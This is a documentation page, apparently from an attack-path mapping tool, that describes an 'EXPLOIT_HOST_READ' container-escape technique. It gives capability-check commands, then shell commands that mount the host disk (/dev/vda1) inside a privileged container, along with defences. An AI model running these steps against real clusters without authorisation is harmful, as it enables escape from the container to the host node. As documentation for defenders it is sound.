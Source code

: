 # EXPLOIT_HOST_READ

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

TODO

## Prerequisites

Execution within a privileged container process.

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

From within a running container, determine whether it is running with as privileged by examining capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff: 000001ffffffffff

# Decode the capabilities (on current box or offline) and check for CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=000001ffffffffff | grep cap_sys_admin
```

Check that the host disks are visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```

## Exploitation

Mount the disks into the container

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

With the disk now writeable from the container, follow the steps in [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Exploitation).

## Defences

### Monitoring

+ Monitor `mount` events originating from containers

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [ExploitHostRead](../../pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

